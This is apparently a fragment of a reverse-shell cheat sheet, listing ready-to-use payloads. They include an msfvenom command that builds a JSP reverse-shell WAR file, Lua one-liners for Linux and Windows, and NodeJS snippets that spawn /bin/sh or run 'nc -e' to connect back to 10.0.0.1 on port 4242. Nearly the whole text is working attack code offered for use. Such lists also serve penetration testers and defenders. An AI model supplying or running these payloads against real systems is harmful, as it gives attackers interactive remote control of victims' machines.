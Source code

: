 ### War

```java
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f war > reverse.war
strings reverse.war | grep jsp # in order to get the name of the file
```


### Lua

Linux only

```powershell
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','4242');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

Windows and Linux

```powershell
lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

### NodeJS

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4242, "10.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();


or

require('child_process').exec('nc -e /bin/sh 10.0.0.1 4242')

or

-var x = global.process.mainModule.require
-x('child_process').exec('nc 10.0.0.1 4242 -e /bin/bash')

or

https://gitlab.com/0x4ndr3/blog/blob/master/JSgen/JSgen.py
```
